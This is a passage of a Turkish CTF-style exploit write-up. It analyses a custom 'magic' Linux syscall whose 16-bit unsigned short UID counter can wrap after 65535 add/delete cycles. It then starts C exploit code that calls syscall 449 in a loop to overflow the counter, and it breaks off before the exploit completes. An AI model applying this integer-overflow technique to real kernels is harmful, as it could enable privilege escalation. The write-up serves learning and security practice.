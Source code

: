 Peki bu sistem çağrısı UID'leri nasıl takip ediyor? Gördüğünüz gibi `nextId` isimli bir değeri var:
```diff
+static unsigned short nextId = 0;
```
Ve `nextId` her yeni bir kullanıcı eklendiğinde, anlık değeri bu yeni kullanıcının `uid` değeri oluyor, ve bir artılıyor:
```diff
+    magic_users[mainlist_slot] = newUser;
+    me->children[child_slot] = newUser;
+    ret = (long)nextId;
+    nextId++;
```
Ve farketmediyseniz bu `nextId` `unsigned short`, yani 16 bit bir integer, maksimum tutabileceği değer `65535`. Bu demek oluyor ki,
eğer 65535'den daha fazla kullanıcı eklersek, bir **integer overfloww** durumu ortaya çıkacak, ve `nextId` 0 değerine geri dönüş yapacaktır.

Tabi aslında 65535 kullanıcı eklememiz mümkün değil, toplam 64 tane kullanıcı var, ve her birinin 64 tane `children` kullanıcısı olabiliyor:
```diff
+#define MAINLIST_SIZE 64
+#define CHILDLIST_SIZE 64
```
Fakat bir sürekli olarak `children` listesine yeni bir kullanıcı ekleyip `do_delete` ile bu kullanıcıyı hemen adrından silerek, 65535 tane
kullanıcı ekleyebiliriz.

# Exploit
Bu standart olmayan magic sistem çağrısı için bir glibc foksiyonu mevcut değil tabiki de, o yüzden `syscall()` makrosu ile kendi `magic()`
userland çağrımızı oluşturabiliriz:
```c
#include <stdint.h>
#include <string.h>

#include <fcntl.h>
#include <stdio.h>

typedef enum {
  MAGIC_ADD = 0,
  MAGIC_EDIT = 1,
  MAGIC_DELETE = 2,
  MAGIC_SWITCH = 3,
} MagicMode;


int64_t magic(MagicMode mode, char *username, char *password){
  return syscall(449, mode, username, password);
}

int main(){
  int64_t ret = 0;

  while((ret = magic(MAGIC_ADD, "fill", "fill")) < UINT16_MAX){
    if(ret < 0){
      printf("failed to add the fill user: %s\n", strerror(-ret));
      return EXIT_FAILURE;
    }

    if((ret = magic(MAGIC_DELETE, "fill", NULL)) != 0){
      printf("failed to delete the fill user: %s\n", strerror(-ret));
      return EXIT_FAILURE;
    }
  }
```